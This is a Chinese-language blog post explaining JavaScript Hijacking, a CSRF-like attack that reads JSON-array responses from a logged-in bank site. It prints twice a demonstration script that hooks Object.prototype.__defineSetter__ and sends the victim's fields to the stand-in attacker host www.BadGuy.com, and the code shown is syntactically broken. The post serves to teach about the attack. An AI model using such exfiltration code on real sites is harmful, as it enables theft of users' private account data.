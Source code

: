 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      JavaScript Hijacking 				# 标题 
subtitle:   JS 劫持原理   #副标题
date:       2019-07-21 				# 时间
author:     Joel 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:	javaScript							#标签
---
```



## JavaScript劫持  


## [深入理解JavaScript Hijacking原理](https://www.cnblogs.com/hyddd/archive/2009/07/02/1515768.html)



        最近在整理关于JavaScript代码安全方面的资料，在查关于JavaScript Hijacking的资料时，发现关于它的中文资料很少，故特意整理一下。

一.JavaScript Hijacking原理

        其实JavaScript Hijacking和CSRF攻击的思想很类似，关于CSRF攻击可以参考我之前写的《[浅谈CSRF攻击方式](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)》，关于JavaScript Hijacking的攻击模型，见下图：

![](./20190721JSHijacking_files/2009070218500674.jpg)

（1）.你正常访问信任站点（[http://www.Bank.com](http://www.bank.com/)），然后登陆信任站点。

（2）.信任站点通过你的验证，并返回Cookie。

（3）.这时，在你还没有登出信任站点之前，你再打开了一个浏览器的tab页，并访问了一个恶意站点（[www.BadGuy.com](http://www.badguy.com/)）。

（4）.恶意站点向请求用户访问[http://www.Bank.com](http://www.bank.com/)的一个资源。

（5）.浏览器带着之前的Cookie信息，向信任站点[http://www.Bank.com](http://www.bank.com/)发出了一个GET请求。

（6）.信任站点验证的Cookie信息通过，根据请求返回一个JSON数组（如果不清楚JSON，可以参考《[JSON入门指南](https://www.cnblogs.com/hyddd/archive/2009/06/15/1503914.html)》）。

（7）.你的浏览器收到来自[http://www.Bank.com](http://www.bank.com/)的响应后，转发响应中的JSON信息给恶意站点。

至此，恶意站点拿到你关于[http://www.Bank.com](http://www.bank.com/)的信息。

        到这里，你应该有对JavaScript Hijacking有一个大概的概念，它确实和CSRF很相像，唯一不同的是，<b>CSRF是模拟你的身份去发送请求，JavaScript Hijacking是模拟你的身份，窃取你在服务器上的私隐信息</b>。

<b>二.JavaScript Hijacking攻击示范代码：</b>

演示代码之前，首先明确几点：

（1）.恶意站点的攻击目标是明确的（这里目标就是[http://www.Bank.com](http://www.bank.com/)）。

（2）.恶意站点是通过用户给它返回信任网站的JSON数组（为什么是JSON数组？普通的JSON对象不行么？这个下面会提到！），从而获取用户私隐信息的。也就是说所谓的隐私数据，也就是这些JSON数组里面的数据，所以信任站点返回的不是JSON数组的数据或者JSON里面的信息是垃圾信息，那么这个恶意站点是徒劳的。

（3）.恶意站点必须实先知道用户返回的JSON的结构。

（4）.恶意站点能且只能发送GET请求......

（5）.这种攻击是需要浏览器支持的，至于为什么看下面吧。

恩，下面看一下攻击代码吧:>

这个恶意站点[www.BadGuy.com](http://www.badguy.com/)针对[www.Bank.com](http://www.bank.com/)的攻击代码：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span>&gt;<br>Object.prototype.__defineSetter__(<span>&apos;money&apos;</span>, <span>function</span>(obj) { var objString = &quot;&quot;;  for (fld in this) {objString += fld + &quot;: &quot; + this[fld] + &quot;, &quot;; }  req.open(&quot;GET&quot;, &quot;<a>http://www.BadGuy.com?obj=</a>&quot; +escape(objString),true); } req.send(null); );<br>&lt;/script&gt;<br>&lt;script type=<span>&quot;text/javascript&quot;</span> src=<span>&quot;http://www.Bank.com/UserInfo&quot;</span>&gt;&lt;/script&gt;</pre>

在用户访问恶意网站时：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span> src=<span>&quot;http://www.Bank.com/UserInfo&quot;</span>&gt;&lt;/script&gt;</pre>

（1）.这段JS代码会要求浏览器发送一个GET请求到[http://www.Bank.com/UserInfo](http://www.bank.com/UserInfo)，于是浏览器按照指示，带上本地的Cookie信息，发送一个http的GET请求。

（2）. [www.Bank.Com](http://www.bank.com/)接受到请求后，确认身份后，响应请求返回了一个JSON数组/JavaScript代码段。

（3）.客户端接受到这段JS脚本后，如果返回的是一个JSON数组，比如：

```
[{"Id":3,"Name":hyddd,"Money":10000}]
```

JSON数组被认为是一段可执行的JavaScript脚本，于是浏览器会解析执行。

如果返回的是一个JSON对象呢？

```
{"Id":3,"Name":hyddd,"Money":10000}
```

呵呵，这个是不会被浏览器执行的，因为浏览器认为：它不是一个JavaScript脚本。

如果它返回的是一个JavaScript脚本的话，恩，这得具体问题具体分析了，不一定能拿到什么数据。

（4）.看下面这段JavaScript脚本：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span>&gt;<br>Object.prototype.__defineSetter__(<span>&apos;Money&apos;</span>, <span>function</span>(obj) { <span>var</span> objString = <span>&quot;&quot;</span>;  <span>for</span> (fld <span>in</span> <span>this</span>) {objString += fld + <span>&quot;: &quot;</span> + <span>this</span>[fld] + <span>&quot;, &quot;</span>; }  req.open(<span>&quot;GET&quot;</span>, &quot;<a>http:<span>//www.BadGuy.com?obj</span></a>&quot;= +escape(objString),true); } req.send(null); );<br>&lt;/script&gt;<br></pre>

它的作用就是发送受害者的私隐信息到恶意站点的。

这里可能有人不理解，我大概说一下：

        Object.prototype.__defineSetter__，可以看做是JavaScript中的Hook（有人把这个称为[JavaScript函数劫持](http://www.yuanma.org/data/2007/1214/article_2924.htm)，注意JavaScript的函数劫持和JavaScript Hijacking不是同一个概念，JavaScript Hijacking的核心思想和CSRF攻击的核心思想应该是一致的），这里是对Object的Money属性设置了一个Hook，在JavaScript中，由于其他的对象都是派生自Object的，所以这段代码就对所有对象的Money属性都做了一个Hook，当有对象设置它的Money属性时，都会触发上面这段代码的运行。注意的是：__defineSetter__这个在IE系列的浏览器好像是不受支持的（在IE6下试了不行），但FireFox系列的浏览器是肯定支持的。

         后面的var objString=""...这就是发送受害者信息到恶意站点了，这里不说了。

         当浏览器解析（3）中的JSON数组时，会新建一个对象并赋值，这时候就出发了上面这段代码，结果私隐信息就发送到恶意站点了。

